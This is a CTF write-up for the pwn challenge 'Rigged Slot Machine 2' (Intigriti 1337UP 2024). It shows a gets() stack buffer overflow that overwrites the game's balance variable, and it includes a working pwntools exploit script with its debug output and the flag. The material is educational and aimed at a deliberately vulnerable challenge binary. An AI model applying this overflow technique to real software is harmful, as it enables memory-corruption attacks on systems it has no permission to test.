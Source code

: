 ```yaml
---
name: Rigged Slot Machine 2 (2024)
event: Intigriti 1337UP LIVE CTF 2024
category: Pwn
description: Writeup for Rigged Slot Machine 2 (Pwn) - 1337UP LIVE CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Rigged Slot Machine (part 2)

## Video walkthrough

[![VIDEO](https://img.youtube.com/vi/ZKtRuZMqo2o/0.jpg)](https://youtu.be/ZKtRuZMqo2o "Buffer Overflow: Overwriting Stack Variables and Basic Python Scripting")

## Challenge Description

> The casino fixed their slot machine algorithm - good luck hitting that jackpot now!

I mentioned that part 1 of this challenge was an unintended solution I caught before the CTF, so here's what I actually intended to make 😅

## Solution

We don't know what the winning condition is yet but since it's a pwn challenges, let's check the binary protections.


```bash
checksec --file rigged_slot2
[*] '/home/crystal/Desktop/challs/pwn/RiggedSlotMachine2/solution/rigged_slot2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```


No canaries, so potentially a buffer overflow for us to exploit. We'll check the disassembled code in `ghidra` soon. First, let's run the binary and see if it looks different to part 1.


```bash
nc localhost 1337
Welcome to the Rigged Slot Machine!
You start with $100. Can you beat the odds?
Enter your name:
cat
Welcome, cat!

Enter your bet amount (up to $100 per spin): 10
You lost $10.
Current Balance: $90

Enter your bet amount (up to $100 per spin): 10
You lost $10.
Current Balance: $80

Enter your bet amount (up to $100 per spin): 10
You lost $10.
Current Balance: $70

Enter your bet amount (up to $100 per spin): 50
You lost $50.
Current Balance: $20

Enter your bet amount (up to $100 per spin): 20
You lost $20.
Current Balance: $0
You're out of money! Game over!
```


It looks similar, apart from the `name` entry at the beginning and the terrible odds (try your brute force script from part 1 if you like).

I've renamed some of the variables in `ghidra`.


```c
setup_alarm(5);
balance = 100;
puts("Welcome to the Rigged Slot Machine!");
puts("You start with $100. Can you beat the odds?");
enter_name(name);
do {
while( true ) {
  while( true ) {
	bet = 0;
	printf("\nEnter your bet amount (up to $%d per spin): ",100);
	user_input = __isoc99_scanf(&%d,&bet);
	if (user_input == 1) break;
	puts("Invalid input! Please enter a numeric value.");
	clear_input();
  }
  if ((bet < 1) || (100 < bet)) break;
  if ((int)balance < bet) {
	printf("You cannot bet more than your Current Balance: $%d\n",(ulong)balance);
  }
  else {
	play(bet,&balance);
	if (balance == 1337420) {
	  payout(&balance);
	}
  }
}
printf("Invalid bet amount! Please bet an amount between $1 and $%d.\n",100);
} while( true );
```


Similar to last time, but we need to hit a balance of `$1,337,420` within the 5 minute time limit (I might of reduced to 2-3 mins, can't remember). Checking the odds, they are terrible 😫


```c
outcome = rand();
outcome = outcome % 1000;
if (outcome == 0) {
  multiplier = 10;
}
else if (outcome < 5) {
  multiplier = 5;
}
else if (outcome < 10) {
  multiplier = 3;
}
else if (outcome < 15) {
  multiplier = 2;
}
else if (outcome < 30) {
  multiplier = 1;
}
else {
  multiplier = 0;
}
```


Soooo.. Back to this buffer overflow! The `name` buffer shows as 20 bytes in ghidra, but there is no limit to how much the user can provide (dangerous `gets()` function).


```c
void enter_name(char *name)
{
  puts("Enter your name:");
  gets(name);
  printf("Welcome, %s!\n",name);
  return;
}
```


Let's test this! Enter a long string (over 20) as the name and play some games.


```bash
nc localhost 1337
Welcome to the Rigged Slot Machine!
You start with $100. Can you beat the odds?
Enter your name:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!

Enter your bet amount (up to $100 per spin): 10
You lost $10.
Current Balance: $1094795575

Enter your bet amount (up to $100 per spin): 10
You lost $10.
Current Balance: $1094795565

Enter your bet amount (up to $100 per spin): 10
You lost $10.
Current Balance: $1094795555
```


That's a lot of money!! We overwrite the balance on the stack 😌 We need exactly `1337420` though, let's automate it into a script.

### solve.py


```python
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
'''.format(**locals())

exe = './rigged_slot2'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

io = start()

payload = b'A' * 20 + p32(1337421)

io.sendlineafter(b"Enter your name:", payload)

io.interactive()
```


Give it a run ✅


```bash
python solve.py REMOTE 127.0.0.1 1337
[+] Opening connection to 127.0.0.1 on port 1337: Done
[DEBUG] Received 0x64 bytes:
    b'Welcome to the Rigged Slot Machine!\r\n'
    b'You start with $100. Can you beat the odds?\r\n'
    b'Enter your name:\r\n'
[DEBUG] Sent 0x19 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  4d 68 14 00  0a                        │AAAA│Mh··│·│
    00000019
[*] Switching to interactive mode

[DEBUG] Received 0x52 bytes:
    00000000  57 65 6c 63  6f 6d 65 2c  20 41 41 41  41 41 41 41  │Welc│ome,│ AAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  41 41 41 41  41 4d 68 14  │AAAA│AAAA│AAAA│AMh·│
    00000020  21 0d 0a 0d  0a 45 6e 74  65 72 20 79  6f 75 72 20  │!···│·Ent│er y│our │
    00000030  62 65 74 20  61 6d 6f 75  6e 74 20 28  75 70 20 74  │bet │amou│nt (│up t│
    00000040  6f 20 24 31  30 30 20 70  65 72 20 73  70 69 6e 29  │o $1│00 p│er s│pin)│
    00000050  3a 20                                               │: │
    00000052


Enter your bet amount (up to $100 per spin): $ 1
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Received 0xaa bytes:
    b'You lost $1.\r\n'
    b'Current Balance: $1337420\r\n'
    b"Congratulations! You've won the jackpot! Here is your flag: INTIGRITI{fake_flag}\r\n"
```


Flag: `INTIGRITI{1_w15h_17_w45_7h15_345y_1n_v3645}`
